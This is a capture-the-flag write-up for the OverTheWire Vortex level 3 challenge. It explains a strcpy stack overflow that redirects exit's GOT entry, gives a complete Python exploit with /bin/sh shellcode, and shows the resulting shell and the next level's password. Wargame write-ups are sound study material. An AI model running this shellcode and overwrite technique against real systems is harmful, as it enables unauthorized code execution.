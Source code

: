 ## Vortex Level 3 → Level 4
### A Stack Overflow with a Difference

Problem page: <http://overthewire.org/wargames/vortex/vortex2.html>


The exploitable part of this program is the `strcpy` which does not check the length of the data being copied, so if we pass in more data into the program we'll be able to overwrite the value of `lpp`, which is then conveniently dereferenced and set to point to the address of `buf`.

We've already dealt with finding the offset between things on the stack in gdb in Vortex Level 1, so we'll skip over that, with the following shellcode we only need to figure out where we need to point `lpp`.

In level 3 the program exits with `exit(0)`, rather than returning, so overwriting the return address would not work, we'll need to find another way, let's see how the call to `exit` works.

```console
vortex3@vortex:~$ objdump /vortex/vortex3 --disassemble-all --section=.plt | grep -A 3 exit
08048310 <exit@plt>:
 8048310:       ff 25 34 97 04 08       jmp    *0x8049734
 8048316:       68 10 00 00 00          push   $0x10
 804831b:       e9 c0 ff ff ff          jmp    80482e0 <_init+0x2c>
```

So we'll search for memory addresses containing `0x8049734` in the range of our program's memory

```console
vortex3@vortex:~$ readelf /vortex/vortex3 --sections
vortex3@vortex:/tmp/36$ readelf /vortex/vortex3 --sections
There are 30 section headers, starting at offset 0x8a8:

Section Headers:
[Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
[ 0]                   NULL            00000000 000000 000000 00      0   0  0
[ 1] .interp           PROGBITS        08048134 000134 000013 00   A  0   0  1
...
[25] .bss              NOBITS          0804974c 00074c 000004 00  WA  0   0  1
[26] .comment          PROGBITS        00000000 00074c 000056 01  MS  0   0  1
[27] .shstrtab         STRTAB          00000000 0007a2 000106 00      0   0  1
[28] .symtab           SYMTAB          00000000 000d58 000460 10     29  45  4
[29] .strtab           STRTAB          00000000 0011b8 00026b 00      0   0  1
```

We'll search the memory with `gdb`

```console
vortex3@vortex:/tmp/36$ env TERM=screen-256color gdb --args /vortex/vortex3 `cat pl.txt`
Reading symbols from /vortex/vortex3...(no debugging symbols found)...done.
(gdb) start
Temporary breakpoint 1, 0x08048430 in main ()
(gdb) find 0x8048134,0x804974c,0x8049734
0x80482a4
0x8048312 <exit@plt+2>
0x80492a4
0x8049312
4 patterns found.
```

Okay, we have enough info for our exploitative input now.

```python
import sys

sys.stdout.write("\xeb\x2b\x5e\x31\xc0\xb0\x46\x31\xdb\x66\xbb\xfa\x01\x31\xc9\x66" +     #Shellcode
                 "\xb9\xfa\x01\xcd\x80\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89" +
		 "\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x31\xd2\xcd\x80\xe8\xd0\xff\xff" +
		 "\xff\x2f\x62\x69\x6e\x2f\x73\x68\xff\xff\xff" +
		 "\x90"*72 +                                                              # Distance to lpp
		 "\x12\x93\x04\x08")                                                      # .got address
```

Let's see if this works out (it does, I checked before writing this).

```console
vortex3@vortex:/tmp/36$ /vortex/vortex3 `python script.py`
$ whoami
vortex4
$ cat /etc/vortex_pass/vortex4
2YmgK1=jw
```

On to level 4
